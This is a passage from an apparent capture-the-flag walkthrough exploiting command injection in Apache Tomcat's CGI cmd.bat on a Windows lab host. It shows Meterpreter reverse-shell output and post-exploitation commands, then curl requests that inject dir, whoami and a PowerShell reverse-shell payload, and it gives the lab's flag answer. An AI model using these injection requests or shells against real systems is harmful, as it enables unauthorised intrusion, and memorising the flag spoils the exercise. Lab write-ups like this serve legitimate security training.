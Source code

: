 ```bash
[*] Command Stager progress - 100.02% done (100692/100668 bytes)
[!] Make sure to manually cleanup the exe generated by the exploit
[*] Meterpreter session 1 opened (10.10.14.45:4444 -> TARGET_IP:49688)
```

#### Step 4: Meterpreter Session Management
```bash
# Verify successful shell establishment
(Meterpreter 1)(C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi) >

# System information gathering
sysinfo

# User context verification
getuid

# Process information
ps

# Current working directory
pwd
```

#### Step 5: Flag Retrieval
```bash
# Method 1: Direct Meterpreter file access
cat C:/Users/Administrator/Desktop/flag.txt

# Expected output:
f55763d31a8f63ec935abd07aee5d3d0

# Method 2: System shell access (alternative)
shell
type C:\Users\Administrator\Desktop\flag.txt
exit
```

**Answer:** f55763d31a8f63ec935abd07aee5d3d0

### Alternative Exploitation Methods

#### Manual Command Injection (Educational)
```bash
# Direct URL-based command injection
# Basic test
curl "http://TARGET_IP:8080/cgi/cmd.bat?&dir"

# Whoami execution
curl "http://TARGET_IP:8080/cgi/cmd.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe"

# PowerShell reverse shell (URL-encoded)
# Payload: powershell -e <base64_encoded_reverse_shell>
curl "http://TARGET_IP:8080/cgi/cmd.bat?&powershell+-e+<BASE64_PAYLOAD>"
```
